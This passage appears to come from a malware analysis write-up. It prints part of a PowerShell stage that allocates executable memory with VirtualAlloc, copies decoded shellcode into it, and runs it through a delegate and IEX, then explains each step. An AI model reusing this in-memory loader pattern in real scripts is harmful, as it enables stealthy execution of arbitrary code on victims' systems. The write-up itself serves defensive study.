 ```powershell

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
        start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
        IEX $DoIt
}
```

Upon careful evaluation of Stage 3, we discerned a significantly intricate PowerShell script. The script's structure and functionalities suggest an explicit intention to engage with the system's lower levels, as evidenced by the use of the **`Microsoft.Win32.UnsafeNativeMethods`** namespace, which provides access to potentially dangerous or malicious functionalities within the system.

The script predominantly includes two notable functions - **`func_get_proc_address`** and **`func_get_delegate_type`**. Both seem meticulously crafted to interact with native system methods and delegate types dynamically, highlighting a comprehensive knowledge of the system's underpinnings.

The script begins by setting a strict mode for error checking, ensuring that the coder does not use uninitialized variables or call non-existent functions. It then continues by defining a block of code in the **`$DoIt`** variable.

Within this block, the script decodes a base64 string to obtain byte code, which is stored in the **`$var_code`** variable. This byte code could contain virtually any executable code and is quite alarming considering its obscure and potential malicious nature.

Using the **`GetProcAddress`** method from the **`Microsoft.Win32.UnsafeNativeMethods`** class, the script obtains a pointer to the **`VirtualAlloc`** function from the 'kernel32.dll' system library. **`VirtualAlloc`** is a Windows API function often used by exploit code to allocate a region of memory with specific permissions.

The script proceeds to call **`VirtualAlloc`**, passing it parameters to allocate memory for the previously decoded byte code. It then copies the byte code into this newly allocated memory.

Finally, the script executes the code that was copied into memory. This execution happens dynamically, using a delegate that matches the signature of the code in memory.

Interestingly, the script also checks whether it is running in a 64-bit environment using **`IntPtr::size`**, a clear indication of the coder's intention to make the script compatible with different system architectures.

To summarize, this stage of the script dynamically loads and executes arbitrary code in the system's memory. The implications and specific actions are dependent on the contents of the base64 encoded string, making it potentially harmful. Therefore, caution and thorough inspection are advised when dealing with such scripts.
